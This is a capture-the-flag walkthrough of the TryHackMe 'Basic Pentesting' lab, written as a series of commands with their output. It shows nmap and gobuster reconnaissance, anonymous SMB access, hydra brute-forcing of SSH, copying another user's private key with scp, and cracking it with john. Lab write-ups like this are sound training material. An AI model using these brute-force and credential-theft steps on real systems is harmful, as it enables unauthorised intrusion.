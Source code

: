 # Basic Pentesting | TryHackMe
1. First, nmap to the target.
`nmap -sV 10.10.150.97`
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-11 13:17 JST
Nmap scan report for 10.10.150.97
Host is up (0.30s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3390/tcp filtered dsc
3517/tcp filtered 802-11-iapp
8009/tcp open     ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open     http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 300.35 seconds
```
1. http is available and I'm going to see it.
<img src="attach:./pictures/basic_pentesting_80.png">
I didn't find anything in particular.
1. I'll try gobuster.
`gobuster dir -w common.txt -u http://10.10.150.97`
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.150.97
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/n22003/Work/Wordlist/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/11 13:34:44 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.hta                 (Status: 403) [Size: 291]
/.htpasswd            (Status: 403) [Size: 296]
/development          (Status: 301) [Size: 318] [--> http://10.10.150.97/development/]
/index.html           (Status: 200) [Size: 158]
/server-status        (Status: 403) [Size: 300]
Progress: 4614 / 4615 (99.98%)
===============================================================
2023/05/11 13:37:09 Finished
===============================================================
```
1. I'll take a look at it since the `/development` is suspicious.
Found dev.txt and j.txt.
According to dev.txt, smb is free. (I knew this from nmap earlier...)
1. Take a look at the SMB
```
        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            BASIC2
```
Check Anonymous.
1. I'll try to connect it to Anonymous.
`smbclient \\\\10.10.150.97\\Anonymous`
No passwords.
```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Apr 20 02:31:20 2018
  ..                                  D        0  Fri Apr 20 02:13:06 2018
  staff.txt                           N      173  Fri Apr 20 02:29:55 2018

                14318640 blocks of size 1024. 11094400 blocks available
```
Take a look at staff.txt
`more staff.txt`
I found a user named Jan.
1. I'm going to try to do a total ssh hit on Jan with hydra.
`hydra -l jan -P rockyou.txt 10.10.150.97 ssh`
1.Now that I have jan's password, I'll try connecting via ssh.
There was nothing special in jan's directory.
However, there were some in kay's directory, so I tried ssh connection with kay.
1. Get kay key.
I'll try to see if I can get the kay key with scp.
`scp jan@10.10.150.97:/home/kay/.ssh/id_rsa .`
The password is jan's.
I got it and I'm going to feed it to john.
`ssh2john id_rsa > hash`
Analyze with john.
`john --wordlist=rockyou.txt hash`
Now that I know kay's password, I change id_rsa's permissions to 600 and ssh.
`chmod 600 id_rsa`
`ssh -i id_rsa kay@10.10.150.97`
The password is the one I just parsed.
If you can log in, check pass.bak and that's it.
